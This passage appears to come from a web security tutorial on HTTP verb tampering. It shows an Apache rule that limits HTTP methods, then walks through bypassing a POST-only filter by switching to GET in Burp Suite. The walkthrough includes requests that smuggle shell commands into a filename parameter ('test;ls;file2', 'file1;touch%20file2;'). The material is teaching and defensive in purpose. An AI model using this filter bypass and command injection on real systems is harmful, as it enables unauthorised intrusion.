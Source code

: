 **Prevention:**
- Protect all HTTP methods:
```xml
<LimitExcept GET POST HEAD>
    Deny from all
</LimitExcept>
```
- Or restrict to only needed methods

#### Example: Bypassing Command Injection Protection
Let's look at another real-world example where HTTP Verb Tampering bypasses security filters.

**Scenario:**
- File Manager web app with file creation functionality
- Security filter blocks special characters in filenames
- Filter only checks POST parameters, not GET

**Step 1: Identify**
- Normal POST request gets blocked:
```http
POST /create.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

filename=test;ls;file2
```
Response: "Malicious character detected!"

**Step 2: Method Manipulation**
1. In Burp Suite:
   - Intercept the request
   - Right-click → "Change request method"
   - Burp converts POST to GET automatically:
```http
GET /create.php?filename=test;ls;file2 HTTP/1.1
Host: example.com
```

**Note:** When changing from POST to GET:
- POST body parameters move to URL query string
- Content-Type and Content-Length headers are removed
- URL-encoding may need adjustment

**Step 3: Command Injection Test**
```http
GET /create.php?filename=file1;touch%20file2; HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: text/html
```
Result:
- Two files created: `file1` and `file2`
- Confirms successful filter bypass and command injection

